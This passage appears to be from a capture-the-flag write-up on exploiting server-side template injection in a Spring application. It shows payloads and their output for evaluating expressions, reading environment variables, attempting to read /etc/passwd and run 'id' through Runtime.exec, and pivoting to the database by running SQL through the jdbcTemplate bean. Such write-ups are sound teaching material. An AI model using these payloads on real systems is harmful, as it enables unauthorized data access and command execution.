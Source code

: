 **Check if my small helper and SSTI works or not:**

```bash
┌──(I3isk3t㉿kali)-[~]
└─$ ex '${{7*7}}'
49
```

Okay, will think after this part, everything will get easy, but NO, the point is I checked every single info leaked like environment and got nothing useful from it, I tried to read Java file, check if I could RCE and the challenge still say NO, maybe server has filter/sandbox.

**Checking environment bean:**

```bash

┌──(I3isk3t㉿kali)-[~]
└─$ ex '${{@environment!=null?1:0}}'
1
┌──(I3isk3t㉿kali)-[~]
└─$ ex '${{@environment.getProperty("spring.application.name")}}'
coty
┌──(I3isk3t㉿kali)-[~]
└─$ ex '${{@environment.getSystemEnvironment()["PA"+"TH"]}}'
/usr/local/openjdk-17/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
# I checked others thing in ENV also, but nothing appears as an important information
```

**Reading Java file, checking RCE:**

```bash
┌──(I3isk3t㉿kali)-[~]
└─$ ex '${ T(java.nio.file.Files).readString(... "/etc/passwd") }'
# NULL
┌──(I3isk3t㉿kali)-[~]
└─$ ex '${ T(java.lang.Runtime).getRuntime().exec("id") … }'
# NULL
```

**Pivot to the database via Spring beans:**

After the direct info leak route failed (`ENV` read and `T(java.*)` calls returned nothing). Maybe the **FLAG** is stored in DB. I pivoted to the database via Spring beans. I can reference **Spring-managed beans** directly in the expression context using the `@beanName` syntax. If the app wires a `JdbcTemplate`/`DataSource`, I can call it to run SQL from within the template expression — so my attack surface “pivots” from the view layer to the **database**.
[**JdbcTemplate**](https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/jdbc/core/JdbcTemplate.html) is common in Spring apps. It executes core JDBC workflow, leaving application code to provide **SQL** and extract results.  

I will check if I can use `JdbcTemplate`:

```bash
┌──(I3isk3t㉿kali)-[~]
└─$ ex '${{@jdbcTemplate!=null?1:0}}'
1
┌──(I3isk3t㉿kali)-[~]
└─$ ex '${{@jdbcTemplate.queryForObject("select 7*7",T(java.lang.Integer))}}'
49
```
